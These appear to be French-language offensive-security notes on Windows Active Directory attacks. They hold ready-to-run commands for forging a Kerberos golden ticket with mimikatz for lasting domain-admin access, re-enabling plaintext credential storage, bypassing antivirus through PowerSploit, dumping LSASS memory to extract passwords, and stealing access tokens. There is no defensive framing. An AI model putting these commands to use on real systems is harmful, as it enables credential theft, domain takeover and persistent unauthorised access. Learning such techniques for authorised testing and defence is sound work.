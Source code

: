 En récupérant les ticket kerberos on peut donc passer DC alors qu'on était simplement admin local (en s'injecteant les tickets).

Quand Kerberos est utilisé, il faut récupérer les tickets, quand c'est NTLM, il faut récupérer les hash.

#### Golden Ticket
golden ticket: généré par le domain admin, le compte `krbtgt` désactivé par défaut, c'est compte qui fait autorité sur kerberos, si on récuprère son NT hash on peut forger autant de ticket kerberos que l'on veut.
Donc on se génère un golden ticket valable 100 ans ou garde le NT hash du krbtgt, pour avoir un accès pérènne. Le moment voulu, ils viennent avec une machine exterieure avec le bon workgroup avec un ticket générée, ils se pluggent sur le réseau et ils auront les accès domain admin.

Commande pour le golden ticket:

    mimikatz.exe "privilege::debug" "kerberos::golden /admin:darkalan /domain:msexp76.intra /id:4000 /sid:S-1-5-21-595127354-1458299726-2062179204 /krbtgt:49918692dbb7808c45b8fefe499bc7f6 /staroffset:0 /endin:600 /renewmax:10080 /ptt"
Avec:
* nom du domaine : msexp76.intra
* kbrtgt : 49918692dbb7808c45b8fefe499bc7f6
* SID du domaine : S-1-5-21-595127354-1458299726-2062179204

Depuis Windows 10 LSASS ne stock plus les mdp pour éviter d'être lu par Mimikatz. Il faut pour ça régler dans la base de registre à 0 le paramètre `UseLogonCredential` et forcer l'utilsateur à se reconnecter (`rundll32.Exe user32.dll,LockWorkStation`).

### Powersploit
[Powersploit](https://github.com/PowerShellMafia/PowerSploit): powershell permettant d'invoquer mimikatz donc de passer l'AV
* télécharger
* copier les sources dans le dossier : C:\windows\System32\WindowsPowerShell\v1.0\Modules
* Débloquer les fichiers: Get-ChildItem -Path  C:\windows\System32\WindowsPowerShell\v1.0\Modules\Powersploit -Recurse | Unblock-File

Processus LSASS avec Powersploit
Commandes basée sur la commande Out-Minidump de PowerSploit

Exporter le contenu de la mémoire du processus LSASS dans un fichier:

    Get-Process Lsass | Out-Minidump -DumpFilePath C:\_adm\Dump

Lancer Mimikatz

    sekurlsa::minidump C:\_adm\Dump\lsass_512.dmp
    sekurlsa::logonpasswords

Variante avec la commande:

    Invoke-Mimikatz -command "privilege::debug sekurlsa::logonpasswords"

Voler un jeton d'acces:

    Invoke-TokenManipulation -Enumerate
    Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId 2696
